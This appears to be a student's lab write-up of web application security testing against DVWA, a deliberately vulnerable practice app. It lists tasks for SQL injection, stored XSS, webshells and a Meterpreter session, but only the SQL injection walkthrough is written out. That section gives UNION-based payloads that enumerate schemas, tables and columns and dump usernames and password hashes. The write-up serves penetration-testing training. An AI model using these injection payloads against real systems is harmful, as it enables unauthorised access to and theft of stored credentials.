# Web Application Securitiy Testing

## Instructions:
### Technical Scope:

- DVWA
- SQLi, 
- XSS
- PHP Webshell
- Msfvenom webshell (Meterpreter)

### Tasks:

1. Perform DVWA SQL Injection: Enumerate databases/columns.
2. Perform DVWA Stored XSS attack: Demonstrate stored XSS in DVWA Guestbook.
3. Create PHP webshell: Upload via DVWA file upload, then execute webshell with OS commands (for example: “ls” or “whoami”). 
4. Create a webshell with msfvenom: Upload to DVWA, run Metasploit multi-handler, call the shell and establish a reverse meterpreter session.
5. Document all attacks with screenshots (payload input + result).
6. Update VAPT report with methodology, screenshots, severity, and remediation recommendations. Students can also suggest mitigating controls to minimize the risk of compromise.


## DVWA - SQL injection

Login to DVWA






1. Break the developers' code

```
1'
' OR 1=1
```




2. Balance the query commenting vectors

```
' OR 1=1 -- -
' OR 'a'='a
' UNION SELECT 1,2 -- -
' UNION SELECT database(),user() -- -
' UNION SELECT null,@@version -- -
```






Then we know that that

```
database-name = dvwa
user = root@localhost
```

3. Find the number of columns

```
' ORDER BY 1 -- -
' ORDER BY 2 -- -
' ORDER BY 3 -- -
```





Then, we have access to vulnerable 2 columns. 

4. Find vulnerable columns

```
' UNION SELECT null,table_name FROM information_schema.tables WHERE table_schema=database() -- -
' UNION SELECT null, schema_name FROM information_schema.schemata -- -
```




schema_name from information_schema

```
>> dvwa
>> flag334422
>> metasploit
>> mysql
>> owasp10
>> tikiwiki
>> tikiwiki195
```

5. Change the pointers location

```
' UNION SELECT null,column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='users' -- -
```


column_name:

```
>> user_id
>> first_name
>> last_name
>> user
>> password
>> avatar
```


6. Extracting sensible data

```
' UNION SELECT null,CONCAT(user,':',password) FROM users -- -
' UNION SELECT user,password FROM users -- -
' UNION SELECT CONCAT(user_id,':',first_name,':',last_name,':',user),password FROM users -- -
```





